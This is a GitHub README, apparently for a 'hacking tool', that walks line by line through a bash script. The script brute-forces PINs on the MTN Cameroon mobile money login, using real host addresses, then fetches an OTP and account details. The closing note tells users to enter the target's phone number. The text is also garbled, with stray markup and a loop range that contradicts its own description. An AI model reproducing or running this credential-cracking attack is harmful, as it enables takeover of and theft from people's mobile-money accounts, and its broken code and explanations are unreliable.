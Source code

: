 # MTN-MoMo-Cameroon-Hacking-Tool
MTN MOMO CAMEROON ACCOUNT BALANCE CHECKING 
The script provided is a brute-force password cracker for the MTN Cameroon mobile money website. It works by first getting the request headers from the website. Then, it iterates from 0 to 9999, generating a different password for each iteration. For each password, it makes a POST request to the login page, passing the username and password as parameters. If the request is successful, the script will get the OTP from the website and check if it is valid. If the OTP is valid, the script will get the account details and print them out.
The first line, #!/bin/bash, tells the operating system that the script is to be interpreted by the bash shell.
The second line, read username, prompts the user to enter the username.
The third line, headers=$(curl -k -s -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9" 'https://196.202.232.201/MoMoWebAppMTNCameroon/login.xhtml' | grep -E ': ' | cut -d ' ' -f1), gets the request headers from the website. The curl command makes a GET request to the login page and the grep command extracts the request headers. The cut command then takes the first value from each header line.
The fourth line, for i in {00000..99999}, iterates from 0 to 9999.
The fifth line, params='loginForm=loginForm&loginForm[username]=$username&loginForm[password]=<span class="math-inline">i&loginForm\[j\_idt19\]\=Login&javax\.faces\.ViewState\=1319890406535641868\:\-8273346397217720005'\, creates the request parameters for the POST request. The username and password are passed as parameters, along with other values that are required by the website. * The sixth line, `response=(curl -k -X POST --data "$params" --header "$headers" 'https://196.202.232.201/MoMoWebAppMTNCameroon/login.xhtml'), makes the POST request to the login page. Thecurlcommand makes a POST request with the specified parameters and headers. The response from the website is stored in the variableresponse`.
The seventh line, if [[ "<span class="math-inline">response" \=\= "j\_security\_check" \]\]; then\, checks if the response from the website is equal to "j_security_check". This means that the login was successful and the password has been found. * The eighth line, `otp=(curl -k -s -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.9" 'https://196.202.232.201/MoMoWebAppMTNCameroon/pages/otpverification.xhtml' | grep -E ': ' | cut -d ' ' -f1), gets the OTP from the website. Thecurlcommand makes a GET request to the OTP verification page and thegrepcommand extracts the OTP. Thecut` command then takes the first value from the OTP line.
The ninth line, if [[ "<span class="math-inline">response" \=\= "j\_security\_check" \]\]; then\, checks if the OTP is valid. This can be done by making a POST request to the OTP verification page with the OTP as a parameter. If the request is successful, the OTP is valid. * The tenth line, `response=(curl -k -X GET --header "$headers" 'https://mobilemoney.mtncameroon.net/MoMoWebAppMTNCameroon/pages/selectedaccountdeatils.xhtml'), gets the account details from the website. Thecurlcommand makes a GET request to the account details page with the specified headers. The response from the website is stored in the variableresponse`.


NB: the username Field prompted , should be the targets phone Number .
